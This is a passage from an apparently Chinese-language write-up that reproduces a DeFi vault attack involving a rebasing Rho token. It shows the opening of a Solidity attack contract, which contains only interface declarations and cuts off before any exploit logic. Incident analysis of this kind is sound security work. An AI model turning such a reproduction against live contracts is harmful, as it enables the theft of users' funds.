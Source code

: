 ## 攻击复现

此次攻击事件中攻击者攻击了多个 vault交易池，手法基本一致，这里只取了其中一例作为演示。

攻击合约：

```solidity
pragma solidity ^ 0.8.0;
interface IVault {
    function mint(uint256 amount) external;
    function redeem(uint256 amount) external;
}
interface IRhoToken  {
    function getMultiplier() external view returns (uint256 multiplier, uint256 lastUpdate);
    function mint(address account, uint256 amount) external;
    function burn(address account, uint256 amount) external;
    function setRebasingOption(bool isRebasing) external;
}
interface IERC20{
    function totalSupply() external view returns (uint256);
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
    function allowance(address owner, address spender) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);

}
interface IBANK{
    function work(uint256 posId, uint256 pid, uint256 borrow, bytes calldata data) external;
}
interface IPerform{
    function performUpkeep(bytes calldata performData) external;
}
interface IPancakeRouter01 {
    function addLiquidity(
        address tokenA,
        address tokenB,
        uint amountADesired,
        uint amountBDesired,
        uint amountAMin,
        uint amountBMin,
        address to,
        uint deadline
    ) external returns (uint amountA, uint amountB, uint liquidity);

    function removeLiquidity(
        address tokenA,
        address tokenB,
        uint liquidity,
        uint amountAMin,
        uint amountBMin,
        address to,
        uint deadline
    ) external returns (uint amountA, uint amountB);
    function swapExactTokensForTokens(
        uint amountIn,
        uint amountOutMin,
        address[] calldata path,
        address to,
        uint deadline
    ) external returns (uint[] memory amounts);
    function swapTokensForExactTokens(
        uint amountOut,
```